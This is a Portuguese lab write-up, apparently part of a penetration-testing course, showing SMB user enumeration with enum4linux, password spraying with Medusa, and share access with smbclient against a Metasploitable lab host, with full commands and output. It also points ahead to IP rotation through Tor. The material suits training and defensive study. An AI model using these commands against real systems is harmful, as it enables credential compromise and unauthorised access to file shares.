

# 🏢 05 - Enumeração e Password Spraying em SMB

> [!abstract] Objetivo do Módulo
> Simular um cenário corporativo onde ataques massivos contra uma única conta bloqueiam o usuário. Demonstrar a técnica de **Password Spraying**, testando uma única senha corporativa comum contra uma lista de usuários válidos previamente enumerados via Samba/SMB.

---

## 1. Por que Password Spraying em Vez de Força Bruta?

Em ambientes corporativos com Windows Server (Active Directory) ou Samba, a política de **Account Lockout Threshold** é ativada após 3 ou 5 falhas consecutivas.



---

## 2. Passo 1: Enumeração de Usuários com `enum4linux`

Utilizamos o `enum4linux` para extrair os usuários locais do servidor Samba:

```bash
enum4linux -U 192.168.56.101
```

```text
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ )
 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.56.101
RID Range ........ 500-550,1000-1050

[+] Enumerating users using SID S-1-22-1 and logon username ''
user:[games] rid:[0x3eb]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4bc]
user:[msfadmin] rid:[0x3e8]
user:[user] rid:[0x3e9]
user:[sysadmin] rid:[0x3ea]
user:[service] rid:[0x3ec]
user:[postgres] rid:[0x3ed]
```

Os usuários relevantes foram salvos em `wordlists/smb_users.txt`.

---

## 3. Passo 2: Execução do Password Spraying com Medusa

Testamos uma única senha previsível (`msfadmin`) contra todos os usuários:

```bash
medusa -h 192.168.56.101 \
       -U wordlists/smb_users.txt \
       -p "msfadmin" \
       -M smbnt \
       -t 2 \
       -v 4
```

> [!tip] Flag `-p` (minúscula) vs `-P` (maiúscula)
> - `-p "senha"`: Define **uma única senha estática** para ser testada contra cada usuário da lista `-U`. Isso caracteriza o ataque de *Password Spraying*.

```text
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks
[+] Target: 192.168.56.101
[+] Module: smbnt (NTLM over SMB)

ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

> [!screenshot] Registro Visual Recomendado
> Capture a execução do spraying com sucesso no terminal e salve em `attachments/`:
> ![[05_smb_password_spraying.png|750]]
> *Figura 5: Password Spraying identificando o usuário msfadmin sem disparar bloqueios.*

---

## 4. Passo 3: Validação com `smbclient`

Com a credencial obtida, listamos os compartilhamentos de arquivos da rede:

```bash
smbclient -L //192.168.56.101 -U msfadmin%msfadmin
```

```text
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
```

Conectando no compartilhamento vulnerável `/tmp`:
```bash
smbclient //192.168.56.101/tmp -U msfadmin%msfadmin
```
```text
smb: \> ls
  .                                   D        0  Sun Nov 17 10:45:00 2024
  ..                                  D        0  Sun May 20 13:36:12 2012
  sess_7b34bdf8872e457788190d78b871c53e   0  Sun Nov 17 10:30:11 2024
smb: \> quit
```

> [!danger] Impacto da Vulnerabilidade
> O compartilhamento `/tmp` expôs sessões ativas do PHP do DVWA em texto claro, demonstrando como um acesso SMB pode ser usado para escalada lateral de privilégios!

---

## 🔗 Próximo Passo
- Avançar para: [[06 - Rotação de IP com Proxychains e Tor]]
